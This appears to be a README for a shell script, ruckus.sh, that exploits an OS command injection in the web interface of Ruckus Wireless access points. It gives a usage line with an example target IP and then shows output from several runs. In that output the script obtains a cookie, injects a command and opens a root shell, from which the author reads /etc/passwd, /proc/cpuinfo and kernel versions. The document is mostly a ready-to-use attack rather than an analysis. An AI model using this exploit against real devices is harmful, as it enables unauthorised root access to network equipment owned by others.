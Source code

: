 Owning Ruckus Wireless Access Points  
=====

+ Easy explotation of an OS command ijection found out in the web interface. This basic script lets you to exploit it 
in a handy and faster way. 

References
----

* Conference : "Routers: El eslabón más débil".

Usage ruckus.sh
----

	$ ./ruckus.sh 
	Usage: ./ruckus.sh [TARGET]
	eg   : ./ruckus.sh 180.68.21.57



	$ ./ruckus.sh 1.2.3.4
	[+] Connecting to 1.2.3.4 and getting cookie...
	[+] Command injection on 1.2.3.4
	[+] Popping a shell...
	# cat /proc/cpuinfo
	system type		: Atheros AR5315
	processor		: 0
	cpu model		: MIPS 4KEc V6.4
	BogoMIPS		: 183.50
	wait instruction	: yes
	microsecond timers	: yes
	tlb_entries		: 16
	extra interrupt vector	: yes
	hardware watchpoint	: no
	ASEs implemented	:
	VCED exceptions		: not available
	VCEI exceptions		: not available


	# uname -a
	Linux RuckusAP 2.6.15 #1 Fri Oct 17 13:37:49 PDT 2008 mips unknown

	# cat /etc/passwd
	root:x:0:0:root:/:/bin/ash
	rkscli:x:0:0:root:/:/usr/bin/-rkscli
	bin:x:1:1:bin:/bin:/bin/sh
	daemon:x:2:2:daemon:/usr/sbin:/bin/sh
	adm:x:3:4:adm:/adm:/bin/sh
	lp:x:4:7:lp:/var/spool/lpd:/bin/sh
	sync:x:5:0:sync:/bin:/bin/sync
	shutdown:x:6:11:shutdown:/sbin:/sbin/shutdown
	halt:x:7:0:halt:/sbin:/sbin/halt
	uucp:x:10:14:uucp:/var/spool/uucp:/bin/sh
	operator:x:11:0:Operator:/var:/bin/sh
	nobody:x:65534:65534:nobody:/home:/bin/sh

	# ls -la /
	lrwxrwxrwx    1 root     root           23 Oct 17  2008 .ssh -> /writable/data/dropbear
	drwxr-xr-x    1 root     root          285 Oct 17  2008 bin
	drwxr-xr-x    1 root     root            0 Oct 17  2008 boot
	drwxr-xr-x    1 root     root           70 Oct 17  2008 defaults
	drwxr-xr-x    1 root     root          568 Oct 17  2008 dev
	drwxr-xr-x    1 root     root          390 Oct 17  2008 etc
	lrwxrwxrwx    1 root     root            9 Oct 17  2008 fl -> /writable
	drwxr-xr-x    1 root     root            0 Nov 22  1999 home
	drwxr-xr-x    1 root     root          475 Oct 17  2008 lib
	lrwxrwxrwx    1 root     root           11 Oct 17  2008 linuxrc -> bin/busybox
	drwxr-xr-x    1 root     root            0 Jan 21  1998 mnt
	drwxr-xr-x    1 root     root            0 Nov 22  1999 opt
	dr-xr-xr-x   49 root     root            0 Jan  1  2000 proc
	drwxr-xr-x    1 root     root            0 Nov 22  1999 root
	drwxr-xr-x    1 root     root          240 Oct 17  2008 sbin
	drwxrwxrwt    7 root     root          640 Jan 21 20:48 tmp
	drwxr-xr-x    1 root     root           41 Oct 17  2008 usr
	drwxr-xr-x    1 root     root           52 Oct 17  2008 var
	drwxr-xr-x    1 root     root          256 Oct 17  2008 web
	drwxr-xr-x    7 root     root            0 Jan  1  1970 writable








	# cat /proc/cpuinfo
	system type		: Atheros AR7242
	processor		: 0
	cpu model		: MIPS 24Kc V7.4
	BogoMIPS		: 265.21
	wait instruction	: yes
	microsecond timers	: yes
	tlb_entries		: 16
	extra interrupt vector	: yes
	hardware watchpoint	: yes, count: 4, address/irw mask: [0x0000, 0x0ff8, 0x00d8, 0x0970]
	ASEs implemented	: mips16
	shadow register sets	: 1
	core			: 0
	VCED exceptions		: not available
	VCEI exceptions		: not available

	# uname -a
	Linux RuckusAP 2.6.32.24 #1 Wed Mar 6 19:26:07 PST 2013 mips GNU/Linux






	# cat /proc/cpuinfo
	system type	    	: Atheros AR5315
	processor	     	: 0
	cpu model	    	: MIPS 4KEc V6.4
	BogoMIPS		    : 183.50
	wait instruction	: yes
	microsecond timers	: yes
	tlb_entries		    : 16
	extra interrupt vector	: yes
	hardware watchpoint	: no
	ASEs implemented	:
	VCED exceptions		: not available
	VCEI exceptions		: not available

	# uname -a
	Linux RuckusAP 2.6.15 #1 Fri Oct 23 14:26:09 PDT 2009 mips unknown






	# uname -a
	Linux RuckusAP 2.6.32.24 #1 Thu Aug 22 09:17:11 PDT 2013 ppc GNU/Linux

	# cat /proc/cpuinfo
	processor	: 0
	cpu	    	: e500v2
	clock		: 666.666660MHz
	revision	: 5.1 (pvr 8021 2051)
	bogomips	: 83.33
	timebase	: 41666666
	platform	: P1024 RDB
	model		: fsl,P1024
	Memory		: 128 MB
